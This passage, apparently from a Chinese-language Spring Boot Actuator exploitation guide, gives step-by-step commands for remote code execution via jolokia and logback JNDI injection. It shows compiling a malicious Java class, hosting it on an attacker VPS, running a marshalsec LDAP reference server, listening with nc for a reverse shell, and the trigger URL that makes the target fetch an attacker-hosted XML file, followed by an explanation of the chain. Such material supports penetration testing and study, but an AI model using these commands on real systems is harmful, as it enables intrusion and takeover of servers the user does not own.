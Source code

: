 ```
javac -source 1.5 -target 1.5 JNDIObject.java
```

然后将生成的 `JNDIObject.class` 文件拷贝到 **步骤二** 中的网站根目录。

**步骤四：架设恶意 ldap 服务**

下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 ldap 服务：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389
```

**步骤五：监听反弹 shell 的端口**

一般使用 nc 监听端口，等待反弹 shell

```
nc -lv 443
```

**步骤六：从外部 URL 地址加载日志配置文件**

> ⚠️ 如果目标成功请求了example.xml 并且 marshalsec 也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

替换实际的 your-vps-ip 地址访问 URL 触发漏洞：

```
/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/your-vps-ip!/example.xml
```

**漏洞原理：**

1. 直接访问可触发漏洞的 URL，相当于通过 jolokia 调用 `ch.qos.logback.classic.jmx.JMXConfigurator` 类的 `reloadByURL` 方法
2. 目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
3. 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
4. xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
5. 目标机器请求恶意 JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

**漏洞分析：**

​ [spring boot actuator rce via jolokia](https://xz.aliyun.com/t/4258)

**漏洞环境：**

[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)

正常访问：

```
http://127.0.0.1:9094/env
```

#### 0x05：jolokia Realm JNDI RCE

**利用条件：**

* 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
* 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
* 目标可以请求攻击者的服务器（请求可出外网）
* 普通 JNDI 注入受目标 JDK 版本影响，jdk < 6u141/7u131/8u121(RMI)，但相关环境可绕过
